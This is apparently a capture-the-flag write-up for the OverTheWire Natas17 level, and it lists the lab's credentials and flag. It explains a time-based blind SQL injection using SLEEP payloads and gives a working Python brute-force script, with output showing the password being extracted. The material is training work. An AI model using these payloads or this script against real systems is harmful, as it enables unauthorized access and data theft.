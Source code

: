# Natas17

*	user: `natas17`
*	pass: `8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw`
*	url: `http://natas17.natas.labs.overthewire.org`
*	flag: `xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP`

## Procedure

1.	Just another brute force attack very similar to
	[Natas15](natas15.md) and [Natas16](natas16.md). The difference
	here is that no text-based evidence about query execution's result
	is provided (see commented line in the source code).

2.	Despite this, we can try with a time-based blind SQL injection. We'll
	reuse solution of [Natas15](natas15.md) but in this case the
	injected string are

		natas18" AND IF(password LIKE BINARY "%<char>%",SLEEP(15), 1)#

	and

		natas18" AND IF(password LIKE BINARY "<pwd_token>%",SLEEP(15), 1)#

	Below the Python script

		import requests

		pwd_len = 32

		charset_0 = (
			'0123456789' +
			'abcdefghijklmnopqrstuvwxyz' +
			'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
		)
		charset_1 = ''

		target = 'http://natas17.natas.labs.overthewire.org'
		auth=('natas17','8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')
		sleep_time = 15

		for c in charset_0:
			username = 'natas18" AND IF(password LIKE BINARY "%%%c%%",SLEEP(%d), 1)#' % (c, sleep_time)
			r = requests.get(target, auth=auth, params={"username": username}
			)
			s = r.elapsed.total_seconds()
			if s >= sleep_time:
				charset_1 += c
				print ('C: ' + charset_1.ljust(len(charset_0), '*'))

		print ""

		password = ""
		while len(password) != pwd_len:
			for c in charset_1:
				t = password + c
				username = 'natas18" AND IF(password LIKE BINARY "%s%%",SLEEP(%d), 1)#' % (t, sleep_time)
				r = requests.get(target, auth=auth, params={"username": username}
				)
				s = r.elapsed.total_seconds()
				if s >= sleep_time:
					print ('P: ' + t.ljust(pwd_len, '*'))
					password = t
					break

3.	Let's try to run the script

		$ python natas17.py
		C: 0*************************************************************
		...
		C: 047dghjlmpqsvwxyCDFIKOP***************************************
		C: 047dghjlmpqsvwxyCDFIKOPR**************************************

		P: x*******************************
		...
		P: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd*
		P: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

